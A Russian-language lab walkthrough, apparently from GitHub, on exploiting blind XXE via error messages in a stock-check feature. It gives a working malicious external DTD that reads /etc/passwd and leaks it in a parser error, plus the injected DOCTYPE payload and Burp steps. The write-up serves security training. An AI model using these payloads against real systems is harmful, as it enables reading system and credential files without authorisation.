 Использование слепого XXE для извлечения данных через сообщения об ошибках
Альтернативный подход к эксплуатации слепого XXE заключается в запуске ошибки анализа XML, где сообщение об ошибке содержит конфиденциальные данные, которые вы хотите получить. Это будет эффективно, если приложение вернет результирующее сообщение об ошибке в своем ответе.

Вы можете вызвать сообщение об ошибке анализа XML, содержащее содержимое файла, /etc/passwdиспользуя вредоносный внешний DTD следующим образом:

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
Данный DTD выполняет следующие шаги:

Определяет параметрическую сущность XML с именем file, содержащую содержимое файла /etc/passwd.
Определяет параметр XML-сущности, называемую eval, содержащую динамическое объявление другой параметр XML-сущности, называемой error. errorСущность будет оценена путем загрузки несуществующего файла, имя которого содержит значение fileсущности.
Использует сущность, что приводит к выполнению evalдинамического объявления сущности .error
Использует errorсущность, так что ее значение оценивается путем попытки загрузить несуществующий файл, что приводит к сообщению об ошибке, содержащему имя несуществующего файла, которое является содержимым файла /etc/passwd.
Вызов вредоносного внешнего DTD приведет к появлению сообщения об ошибке, подобного следующему:

java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...

---

В этой лабораторной работе есть функция «Проверка запасов», которая анализирует входные данные XML, но не отображает результат.

Для решения лабораторной работы используйте внешний DTD, чтобы вызвать сообщение об ошибке, отображающее содержимое файла /etc/passwd.

Лаборатория содержит ссылку на сервер эксплойтов на другом домене, где вы можете разместить свой вредоносный DTD.

---

1. Нас встречает список продуктов, переходим на любой из них:

![image](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

---

2. Внизу страницы есть кнопка "Проверить наличие на складе" включает Burp прокси и нажимаем:

![image](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

---

3. Поместите полезную нагрузку Burp Collaborator во вредоносный файл DTD:
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;

![image](https://github.com/user-attachments/assets/11ff29f8-5837-4372-900b-a9d5bbddcdd9)

---

4. Заходим в Proxy -> HTTP History выбираем POST запрос к /product/stock и отправляем в Repeater: 

![image](https://github.com/user-attachments/assets/1a3d72b0-4f86-4a0f-8a3f-d488517695b2)

---

5. Вставьте следующее определение внешней сущности между декларацией XML и stockCheck элементом: <!DOCTYPE foo [<!ENTITY % eyes SYSTEM "YOUR-DTD-URL"> %eyes;]>

![image](https://github.com/user-attachments/assets/0e7f5ee1-ca87-4bf9-ac69-5d11b894fba8)

---

6. Получаем вывод /etc/passwd:

![image](https://github.com/user-attachments/assets/70fb7b7c-fa39-4c23-be4d-b5d2e10d6c9f)
